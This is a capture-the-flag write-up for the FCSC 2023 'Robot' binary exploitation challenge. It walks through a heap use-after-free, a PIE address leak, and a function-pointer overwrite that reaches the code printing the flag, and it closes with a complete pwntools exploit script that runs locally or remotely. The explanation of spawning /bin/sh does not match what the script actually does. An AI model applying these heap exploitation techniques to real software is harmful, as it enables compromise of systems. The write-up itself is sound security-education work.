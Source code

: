 +++
title = "FCSC 2023 | Robot"
+++

# Intro
So, first in first what does we have to do ? After a fast analyse of the source code we can see that the function who's interesting is `admin`:

```c
void admin(char *pwd)
{
    unsigned char hash[SHA256_DIGEST_LENGTH];
	char result[65];

	SHA256((const unsigned char *) pwd, strlen(pwd), hash);

	for (int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
		sprintf(result + (i * 2), "%02x", hash[i]);
	}

	if (rstcmp(result, encrypted) == 0) {
		execl("/bin/cat", "/bin/cat", "flag.txt", NULL);
		perror("execl");
		exit(2);
	} else {
		puts("ERROR: wrong password!");
	}
}
```

it's a comparaison between our input hashed and a predefined hash, we don't are in a crypto chall so we don't care about that, our objective is to jump directly to the execl to print the flag.

# Exploitation

## Actual situation
Now it's exploit time ! In first we can see that when a user create a robot, this robot is stored in the heap, to do this the program alloc a `struct` called `robot` who contains one chars of 16bytes and two pointers so the chunk allocated will be of `32bytes` other interesting things is that when we read the manual the program will read the 32bits of the first chunk stored !

## Exploit - leak
So now, we can understand how we are going to exploit this thing !

In first we going to allocate a first chunk by create a new robot so the heap will look like this:
```
+--------------------+
|        HEAP        |
+--------------------+
|       name[16]     |
|       *bleep       |  32 bytes
|       *rool        |
+--------------------+
```
So if we free the chunk and then create a new manuel, malloc will allocate the manuel into our older freed chunk were we have the metadata of the chunk with an address to leak the PIE

## Exploit - CE
To gain a RCE we'll overwrite the pointers of the function bleep and replace it with the `execl` function, with this we can call `execl` with `/bin/sh` as parameter and get a shell

firstly we're going to create a new robot so the freed chunk will be realocated
and we create a new manuel and write 16 bytes and then the `execl` function address, to rewrite the bleep pointer
```
+--------------------+
|        HEAP        |
+--------------------+
|       name[16]     |
|       *execl       |  32 bytes
|       *roll        |
+--------------------+
```

then we trigger the `bleep` function by typing 2 and tada ! we got our flag !

# Exploitation - exploit

```python
#!/bin/python
from pwn import *
from sys import argv

def recv_header(io):
    io.recvline()
    for i in range(4):
        io.recvline()

def create(io, data="Botman"):
    recv_header(io)
    io.sendline(b'1')
    io.sendlineafter(b"> Comment vous l'appelez ?\n", data)
    io.recvline()
    io.recvline()
    return 'robot created'

def manuel(io, data="data"):
    recv_header(io)
    io.sendline(b'4')
    io.sendlineafter(b"Vous commencez \xc3\xa0 r\xc3\xa9diger le mode d'emploi...\n", data)
    io.recvline()
    return 'manuel created'

def delete(io):
    recv_header(io)
    io.sendline(b'3')
    for i in range(3):
        io.recvline()
    return 'robot deleted'

def show(io):
    recv_header(io)
    io.sendline(b'2')
    return io.recvline()

def read(io):
    recv_header(io)
    io.sendline(b"5")
    io.recvline()
    return io.recvline()

def exploit(io, elf):
    create(io, b"A"*16)
    delete(io)
    manuel(io, b"A"*16)
    leak = read(io)
    leak = leak[leak.index(b'\xfc'):][:-2]

    hex_values = [hex(byte)[2:].zfill(2) for byte in leak if byte != 0]
    hex_string = bytes.fromhex((''.join(hex_values)))[:8][::-1]
    hex_int = int.from_bytes(hex_string, 'big')
    leak = int(f'0x0000{hex_int:012x}', 16)

    flag = leak + 0x180
    
    print("leak :" + hex(leak))
    print("flag :" + hex(flag))

    create(io, b"A"*16)
    delete(io)
    manuel(io, b"A"*16 + p64(flag))
    print(show(io))

if __name__ == "__main__":
    usage = '''
usage: ./exploit.py [binary] ?debug
       ./exploit.py remote [binary] [ip] [port] ?debug
       ./exploit.py [binary] ?gdb [command]

       default command = 'continue'
'''

    if len(argv) <= 1:
        print('error: no arguments specified\n'+usage)
        exit(0)

    elif len(argv) <= 5 and argv[1] != 'remote':
        context.binary = elf = ELF(argv[1])
        context.terminal = ["tmux", "splitw", '-h']
        p = process()
        if "gdb" in argv: gdb.attach(p, argv[-1]) if argv[-1] != 'gdb' else gdb.attach(p, 'continue')
        if "debug" in argv: context.log_level = "DEBUG"
        exploit(p,elf)
    elif len(argv) <= 6 and argv[1] == "remote":
        context.binary = elf = ELF(argv[2])
        p = remote(argv[3], int(argv[4]))
        if "debug" in argv: context.log_level = "DEBUG"
        exploit(p, elf)
    elif len(argv) > 5:
        print('error: too much params specified\n' + usage)
        exit(0)
    elif len(argv) <= 3:
        print('error: you forgot ip or/and port\n' + usage)
        exit(0)
    else:
        print(usage)
```
[download here](/exploits/robot.py)

